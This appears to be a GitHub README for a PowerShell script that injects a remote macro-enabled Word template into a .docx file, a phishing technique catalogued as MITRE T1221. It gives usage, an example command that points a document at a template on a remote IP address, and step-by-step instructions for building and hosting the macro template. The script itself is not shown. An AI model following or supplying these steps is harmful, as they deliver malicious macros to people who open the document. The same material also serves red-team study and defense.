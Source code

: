 # Template InjectionInjects Microsoft template with macro into a Microsoft Word document.  

## Requirements
- PowerShell version 5 or greater.

## Usage
```
usage: .\TemplateInjection.ps1 DOCX URL

positional arguments:
  DOCX            .docx file to inject template into
  URL             remote Microsoft template

Example of use
To inject remote http url:

.\TemplateInjection.ps1 C:\dump\report.docx http:\\192.168.238.141\template.dot
```

## Basic steps

1. Create a Microsoft Word template with macro, and save as a .dotm file (Word Macro-Enabled Template (*.dotm)
2. Rename above to extension .dot (Word 97-2003 Template).
3. Create a new document from this template, and save as a Word .docx file.
4. Move the .dot file to a remote web server.
5. Use the PowerShell script to inject reference of the remote template location into the .docx file.

## References

- Mitre Attack: Template Injection https://attack.mitre.org/techniques/T1221/
- Phishing with MS Office: Inject Macros from a remote dotm template. https://www.ired.team/offensive-security/initial-access/phishing-with-ms-office/inject-macros-from-a-remote-dotm-template-docx-with-macros
- RemoteInjector: Python script to Inject remote template link into word document. https://github.com/JohnWoodman/remoteinjector
- Microsoft: Internet Macros Blocked. https://learn.microsoft.com/en-us/deployoffice/security/internet-macros-blocked
